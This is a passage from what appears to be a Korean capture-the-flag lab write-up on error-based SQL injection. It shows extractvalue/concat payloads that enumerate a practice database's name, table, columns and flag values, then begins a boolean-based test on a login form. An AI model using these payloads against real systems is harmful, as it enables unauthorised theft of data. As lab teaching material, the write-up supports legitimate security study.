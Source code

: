 ```sql
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```

**실행 결과:**

![sqli4 database](/assets/web-screenshots/blind-error-based-sqli/sqli4_database.png)

> 데이터베이스 이름: **sqli_2_1**

이제 데이터베이스 이름을 바탕으로, **테이블명부터 컬럼, 최종 데이터**까지 차례로 추출해볼 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_1' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

이어서, 해당 테이블의 컬럼 정보도 순차적으로 추출해보자.

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_1' and table_name='flag_table' limit ?,1))) and '1'='1
```

컬럼을 추출해본 결과, 테이블에는 `flag1`, `flag2`, `...`, `flag8`과 같은 이름의 컬럼들이 존재하였다.

이제 각 컬럼을 하나씩 조회하여, **실제 데이터 값을 추출**해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select flag1 from flag_table limit 0,1))) and '1'='1
```

위 페이로드를 활용하여 `flag1`부터 `flag8`까지의 컬럼 값을 순차적으로 조회하였다.
그 결과, **각 컬럼에 저장된 값들을 조합하여 최종 플래그를 완성**할 수 있었다.

---

## SQL Injection 5 (Error Based SQLI)

이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.

- 계정: normaltic / 1234

로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

```sql
normaltic' and '1'='1
normaltic' and '1'='2
```
